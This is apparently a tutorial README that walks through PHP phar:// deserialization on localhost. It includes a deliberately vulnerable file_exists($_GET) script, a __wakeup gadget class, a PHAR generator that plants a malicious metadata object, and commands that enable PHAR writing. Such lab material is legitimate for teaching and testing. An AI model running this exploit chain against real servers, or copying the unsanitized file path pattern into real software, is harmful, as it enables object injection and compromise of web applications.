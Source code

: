 
file_exists + phar:// + gadget === <3

#### ----------------


Build-in PHP web server
```
# php -S 127.0.0.1:8081
# php -l file.php # check for syntax errors
```


File `01.file_exists.php`

```php
<?php

if (file_exists($_GET['img'])) {
   echo 'OK';
} else {
   echo 'Nope';
}
```

Usage
```
# http 127.0.0.1:8081/01.file_exists.php?img=phar://evil.phar -b
```
- `evil.phar` uploaded by user as image
- `evil.phar` contains PHP code like
```
class Users {
    $userdb = 'http://site.com/fetch.json'
}
```


#### ----------------


Users db:
```
# cat make_users_db.php
<?php
$user = ['admin' => [ 'role' => 'administrator']];
file_put_contents('users_db.json', json_encode($user));
# php make_users_db.php
# cat users_db.json && echo
{"admin":{"role":"administrator"}}
```

File `02.wakeup.php`
```php
<?php
class UsersCollection {
    public $dbfile = 'users_db.json';
    public $users = [];
    function __wakeup() {
        $this->users = json_decode(
            file_get_contents($this->dbfile),
            true
        );
        print_r($this->users);
    }
}
$users = new UsersCollection();
$users->__wakeup();
```

Usage
```
# http 127.0.0.1:8081/02.wakeup.php -b
Array
(
    [admin] => Array
        (
            [role] => administrator
        )

)
```


#### ----------------


File `02.wakeup.php`
```php
<?php
class UsersCollection {
    public $dbfile = 'users_db.json';
    public $users = [];

    function __wakeup() {
        // will get called
        $this->users = json_decode(file_get_contents($this->dbfile), true);
        print_r($this->users);
    }

    function __construct() {
        // will get called
    }
    function __destruct() {
        // will get called
    }
}
if (file_exists($_GET['f'])) {
    $users = new UsersCollection();
}
```

```
# http 127.0.0.1:8081/02.wakeup.php?f=users_db.json -b
```

PHAR generator `phar_generator.php`
```php
<?php
class UsersCollection { }
$users = new UsersCollection();
$users->dbfile = 'http://127.0.0.1:9999/data.json';

$phar = new Phar('data.phar');
$phar->startBuffering();
$phar->addFromString('data.txt', 'data');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($users);
$phar->stopBuffering();
```

PHP-ini config must be modified to allow us create PHAR files
```
# for i in `locate cli/php.ini | grep etc`; do sed -i 's/;phar.readonly = On/phar.readonly = Off/g' $i; done
# locate cli/php.ini | grep etc | xargs grep 'phar.' | grep -vE '^;'
phar.readonly = Off
``` 

```
# php phar_generator.php
# hexdump -C data.phar
```

Generate `data.json` as well
```
# php -r '$user=["fake"=>["role"=>"dummy"]];file_put_contents("data.json",json_encode($user));'
# python -m SimpleHTTPServer 9999
```

Usage
```
# http 127.0.0.1:8081/02.wakeup.php?f=phar://data.phar -b
Array
(
    [fake] => Array
        (
            [role] => dummy
        )

)
```
